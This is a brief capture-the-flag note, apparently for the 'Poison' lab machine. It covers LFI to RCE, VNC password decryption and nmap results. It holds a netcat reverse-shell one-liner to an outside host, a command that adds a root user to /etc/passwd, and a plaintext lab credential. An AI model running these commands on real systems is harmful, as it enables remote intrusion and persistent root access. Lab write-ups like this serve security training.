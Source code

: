 # Summary



## about target

tip:  10.129.1.254

hostname: Poison

Difficulty: Medium



## about attack

+ LFI phpinfo rce, lfi log rce; 
+ Vnc password decrypt. 





**attack note**

```bash
Poison / 10.129.1.254


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e33b7d3c8f4b8cf9cd7fd23ace2dffbb (RSA)
|   256 4ce8c602bdfc83ffc98001547d228172 (ECDSA)
|_  256 0b8fd57185901385618beb34135f943b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32

for i in `seq 0 12`; do echo -n "| base64 -d "; done

charix:Charix!2#4%6&8(0

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i |nc 10.10.14.78 9001

echo 'test1:$1$test1$4mkw3HovqvIQpGIJM9AlP/:0:0::/root/:/bin/csh' >> /etc/passwd

```







# Enumeration
